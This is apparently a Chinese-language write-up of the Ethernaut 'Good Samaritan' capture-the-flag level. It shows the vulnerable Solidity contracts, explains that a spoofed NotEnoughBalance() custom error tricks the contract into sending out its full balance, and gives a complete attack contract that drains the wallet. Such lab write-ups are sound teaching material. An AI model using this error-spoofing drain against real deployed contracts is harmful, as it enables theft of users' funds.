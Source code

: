 # Good Samaritan

> This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.
>
> Would you be able to drain all the balance from his Wallet?
>
> Things that might help:
>
> - [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## 攻击思路

题目说我们要掏空`Wallet`中的`Coin`

1. 重入攻击

   合约中的`requestDonation`函数没有检查重入攻击，一次请求10个，一共10**6个。怕是要花不少Gas。

2. 当`Wallet`合约中`Coin`余额不足10时，会触发`transferRemainder`将剩余所有`Coin`转移给请求者。

   而触发`transferRemainder`的条件是`GoodSamaritan`合约检测到`NotEnoughBalance()`错误。

   但`GoodSamaritan`合约却无法知道这个`NotEnoughBalance()`错误是谁发出的。

   所以我们可以写攻击合约发出`NotEnoughBalance()`错误让`GoodSamaritan`合约将`Wallet`合约中的所有`Coin`转给我们。



## 攻击流程

增加`onlyOwner`使防止链上的夹子机器人抢跑我们的交易。

```solidity
contract Attack {

    address  owner;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {//防止夹子机器人
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function notify(uint256 amount) pure public {

        if(amount == 10){
            revert NotEnoughBalance();
        }
    }

    function attack(GoodSamaritan goodSamaritan) external onlyOwner{
        goodSamaritan.requestDonation();
        Coin coin = Coin(goodSamaritan.coin());
        withdraw(coin, owner);
    }

    function withdraw(Coin coin, address dest_) internal onlyOwner{
        coin.transfer(dest_, coin.balances(address(this)));
    }
}
```



Congratulations! You have completed the level. Have a look at the Solidity code for the contract you just interacted with below.

Godspeed!!
